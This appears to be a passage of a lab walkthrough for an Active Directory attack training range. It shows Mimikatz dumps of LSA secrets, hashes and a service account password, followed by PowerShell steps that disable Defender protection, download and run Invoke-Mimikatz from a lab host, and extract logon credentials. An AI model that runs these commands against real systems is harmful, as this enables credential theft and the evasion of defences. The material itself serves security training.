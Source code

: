 ```powershell
cur/hex : df 1c e9 70 98 2f e1 9f 34 9d f2 d9 a4 75 e2 f0 88 4a 0c 4a 48 fc 82 64 0b cc d6 3d 8d c5 b0 1c 56 57 44 23 e1 d7 b3 0e 66 6d 7f 8c 23 00 39 46 3d ee 67 ee 6f 28 b5 70 47 76 65 1b 66 a3 6f 71 85 73 7a 94 33 4e 38 a1 6f 2a 16 2c 23 7d 2f ba a2 86 fe 63 62 3e 2d 8e 9a af d6 1d 7e 05 a5 1c eb 04 d2 40 bf 6d c1 cb b7 fd db f6 23 ed bf 9b d3 30 80 03 d6 a9 87 14 88 47 09 8e 26 c3 b4 e7 f6 f6 5f 4b 62 e1 9c 3e 51 4b 7d 4c c0 a1 02 48 72 df b0 3c 32 55 09 ae e2 b7 aa e9 ca e9 f3 d7 fd 65 b4 92 f3 c1 ff ec 81 95 15 b3 db ce 7d 05 41 81 59 2c f6 fd 46 d4 43 cb 89 61 88 2e 5a 1a 99 5f 03 d9 ad 74 f6 c8 35 3e 33 7c 22 20 8a 70 b5 e6 35 1e 4b 60 6f f9 c8 a0 7e b6 9a 84 2a 42 91 df bd fb 54 f6 d8 a9 ba 29 5a 90 70 de ba 53 
    NTLM:639c1adde3e0d1ba0d733c7d0d8f23ec
    SHA1:944b2007bbb8137e85ecb019f409790040c435f9
old/text: Ee*2$jAW8eKW(;R-wsZ3680`Qf>?_E+Y\ djW:(fM>HgH_1bt:6FeTs#nz<^0Ov]E,iw2O+,8Z\b^an6\)Iz&l>LlDK$K4Y$Ke5cvz2y?j,0[XYNcQY:LpdP
    NTLM:8885a6cf17560a134e1bb038c3602e83
    SHA1:6a22c90b705a44942288b71a7a4585f26258e478

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 cd 72 7f fd c2 ba 53 1b 5b ec e1 af a0 84 3e 14 12 be 65 3f 09 82 1c 0a 14 ba 4d d3 87 ce 5d c6 82 a1 e3 12 ae 59 9f 6c 
    full: cd727ffdc2ba531b5bece1afa0843e1412be653f09821c0a14ba4dd387ce5dc682a1e312ae599f6c
    m/u : cd727ffdc2ba531b5bece1afa0843e1412be653f / 09821c0a14ba4dd387ce5dc682a1e312ae599f6c
old/hex : 01 00 00 00 f4 07 fb f1 b1 57 cf 7f 48 d8 15 ab 61 c2 14 a8 46 ea 62 fb c0 5e 29 15 ed b0 60 18 db d3 43 06 52 89 97 9c 35 dd ba 49 
    full: f407fbf1b157cf7f48d815ab61c214a846ea62fbc05e2915edb06018dbd343065289979c35ddba49
    m/u : f407fbf1b157cf7f48d815ab61c214a846ea62fb / c05e2915edb06018dbd343065289979c35ddba49

Secret  : NL$KM
cur/hex : 51 b8 60 3f a3 14 a4 9f e9 b3 6f ef 67 36 8b fd 5c bb 7a 21 63 1f 9e 1b c0 85 4d b4 15 0f 59 02 65 ea d2 2e 71 4a 2b 40 cd 92 b2 dc ca 3d b8 61 fe 95 4a ce ab 7d a1 48 f1 a6 06 6e c0 b9 1e 33 
old/hex : 51 b8 60 3f a3 14 a4 9f e9 b3 6f ef 67 36 8b fd 5c bb 7a 21 63 1f 9e 1b c0 85 4d b4 15 0f 59 02 65 ea d2 2e 71 4a 2b 40 cd 92 b2 dc ca 3d b8 61 fe 95 4a ce ab 7d a1 48 f1 a6 06 6e c0 b9 1e 33 

Secret  : _SC_MSSQLSERVER / service 'MSSQLSERVER' with username : dcorp\svcadmin
cur/text: *ThisisBlasphemyThisisMadness!!

Secret  : _SC_SQLTELEMETRY / service 'SQLTELEMETRY' with username : NT Service\SQLTELEMETRY
```

### The Intended Way
```
# From the Jenkins server
PS C:\Users\john\Documents> Enable-PSRemoting
PS C:\Users\john\Documents> $sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local
PS C:\Users\john\Documents> Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
PS C:\Users\john\Documents> iex (iwr http://172.16.99.27/Invoke-Mimikatz.ps1 -UseBasicParsing)
PS C:\Users\john\Documents> Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
mimikatz(powershell) # sekurlsa::logonpasswords
Authentication Id : 0 ; 968190 (00000000:000ec5fe)
Session           : RemoteInteractive from 2
User Name         : mgmtadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/5/2023 3:14:25 AM
SID               : S-1-5-21-1874506631-3219952063-538504511-1121
	msv :	
	 [00000003] Primary
	 * Username : mgmtadmin
	 * Domain   : dcorp
	 * NTLM     : 95e2cd7ff77379e34c6e46265e75d754
	 * SHA1     : 3ea8a133b86784c799f75ac1c81add76e34df1ea
```